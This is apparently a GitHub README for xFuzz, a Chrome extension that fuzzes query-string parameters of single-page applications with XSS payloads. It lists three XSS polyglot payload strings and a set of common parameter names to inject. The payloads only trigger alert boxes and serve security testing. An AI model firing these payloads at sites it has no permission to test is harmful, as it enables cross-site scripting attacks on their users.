

# xFuzz

XSS query param fuzzer in a chrome extension. Works on Single Page Applications (SPAs).



## Details

1. Fires up a new window
2. Fires up a couple of tabs
3. Fuzzes each query string parameter with XSS payloads
4. Once the window is finished loading it trys a different payload.

Payloads:

```
var payloads = ["", "javascript://'/</title></style></textarea></script>--><p\" onclick=alert()//>*/alert()/*",
"--></script></title></style>\"/</textarea><a' onclick=alert()//>*/alert()/*", "'; alert(1)"]
```

Extra Params
```
var commonQuery = ['admin', 'tag', 'id', 'user', 'userid', 'debug', 'page', 'redirect', 'next', 'callback', 'q']
```

## Contact

c0nrad@c0nrad.io